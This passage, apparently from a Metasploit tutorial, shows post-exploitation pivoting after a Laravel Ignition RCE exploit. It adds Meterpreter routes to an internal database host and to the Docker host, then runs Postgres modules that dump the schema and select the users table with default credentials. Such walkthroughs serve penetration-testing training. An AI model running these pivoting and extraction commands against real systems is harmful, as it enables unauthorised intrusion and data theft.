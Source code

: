 As this is an internal IP address, it won’t be possible to send traffic to it directly. We can instead leverage the network pivoting support within msfconsole to reach the inaccessible host. To configure the global routing table in msfconsole, ensure you have run the `background` command from within a Meterpreter session:

Metasploit Console Commands

```shell-session
# The discovered webserice_database IP will be routed to through the Meterpreter session
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route add 172.28.101.51/32 -1
[*] Route added
```

We can also see, due to the presence of the `/.dockerenv` file, that we are in a docker container. By default, Docker chooses a hard-coded IP to represent the host machine. We will also add that to our routing table for later scanning:

Metasploit Console Commands

```shell-session
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route add 172.17.0.1/32 -1
[*] Route added
```

We can print the routing table to verify the configuration settings:

Metasploit Console Commands

```shell-session
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.17.0.1         255.255.255.255    Session 3
   172.28.101.51      255.255.255.255    Session 3


[*] There are currently no IPv6 routes defined.
```

With the previously discovered database credentials and the routing table configured, we can start to run Metasploit modules that target Postgres. Starting with a schema dump, followed by running queries to select information out of the database:

Metasploit Console Commands

```shell-session
# Dump the schema
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:postgres@172.28.101.51/postgres

# Select information from a specific table
use auxiliary/admin/postgres/postgres_sql
run postgres://postgres:postgres@172.28.101.51/postgres sql='select * from users'
```
